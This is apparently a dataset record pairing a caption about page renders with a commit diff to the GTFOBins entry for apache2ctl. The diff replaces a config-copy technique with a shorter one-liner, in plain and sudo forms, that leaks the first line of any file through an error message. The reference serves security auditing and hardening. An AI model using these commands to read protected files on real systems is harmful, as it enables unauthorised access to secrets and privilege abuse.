

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/apache2ctl.md, in a window 1280 px wide. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Simplify apache2ctl

```diff
--- a/_gtfobins/apache2ctl.md
+++ b/_gtfobins/apache2ctl.md
@@ -1,16 +1,12 @@
 ---
-description: apache2ctl is a front end to the Apache HyperText Transfer Protocol (HTTP) server. It is designed to help the administrator control the functioning of the Apache apache2 daemon.
+description: This includes the file in the actual configuration file, the first line is leaked as an error message.
 functions:
-    file-read:
-        - code: cp -r /etc/apache2/ /tmp/apache2
-        - code: |
-            LFILE=file_to_read
-            echo "Include $LFILE" >> /tmp/apache2/apache2.conf
-        - code: apache2ctl -d /tmp/apache2 -k restart
-    sudo:
-        - code: cp -r /etc/apache2/ /tmp/apache2
-        - code: |
-            LFILE=file_to_read
-            echo "Include $LFILE" >> /tmp/apache2/apache2.conf
-        - code: sudo apache2ctl -d /tmp/apache2 -k restart
+  file-read:
+    - code: |
+        LFILE=file_to_read
+        apache2ctl -c "Include $LFILE" -k stop
+  sudo:
+    - code: |
+        LFILE=file_to_read
+        sudo apache2ctl -c "Include $LFILE" -k stop
 ---
```
